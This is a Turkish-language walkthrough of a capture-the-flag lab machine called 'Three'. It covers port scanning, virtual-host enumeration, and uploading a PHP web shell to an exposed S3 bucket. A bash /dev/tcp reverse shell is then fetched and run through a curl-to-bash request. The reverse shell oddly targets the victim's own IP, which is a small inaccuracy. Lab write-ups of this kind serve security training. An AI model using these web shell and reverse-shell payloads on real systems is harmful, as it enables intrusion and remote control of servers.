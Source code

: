 ```yaml
---
search:
  boost: 2
---
```


# Three

!!! info "Target IP Address"

    10.129.227.248

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.227.248 -p- -Pn -T5 --open
```

```text title="Output" hl_lines="7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 00:28 +03
Nmap scan report for 10.129.227.248
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.73 second
```

Web tarayıcısında [http://10.129.227.248](http://10.129.227.248) adresine gidildiğinde yönlendirilen siteye (`thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

Ardından aşağıdaki komutu çalıştır:

```bash
gobuster vhost --append-domain -u thetoppers.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]

...SNIP...
```

!!! info "Amazon S3"

    Gobuster ile elde edilen vHost bilgisini Google üzerinde aratırsak, bundan sonraki adımlarımızın [Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html) ile ilgili olacağını öğrenebiliriz.

Aşağıdaki one-liner komutunu PHP dosyası olarak kaydet:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Oluşturulan bu dosyayı S3 kovasına (bucket) yükle:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Ardından aşağıdaki reverse shell payload dosyasını oluştur:

```bash title="shell.sh" linenums="1"
#!/bin/bash

bash -i >&/dev/tcp/10.129.227.248/1337 0>&1
```

Netcat ile 1337 numaralı port üzerinden dinlemeye başla:

```bash
nc -nvlp 1337
```

Reverse shell payload dosyasının bulunduğu dizinde bir Python HTTP sunucusu başlat:

```bash
python -m http.server 8000
```

Web tarayıcısında [https://thetoppers.htb/shell.php?cmd=curl%2010.129.227.248:8000/shell.sh|bash](https://thetoppers.htb/shell.php?cmd=curl%2010.129.227.248:8000/shell.sh|bash) adresine giderek Netcat üzerinde reverse shell elde et ve bu shell üzerinde aşağıdaki komut ile bayrağı ele geçir:

```bash
cat /var/www/flag.txt
```
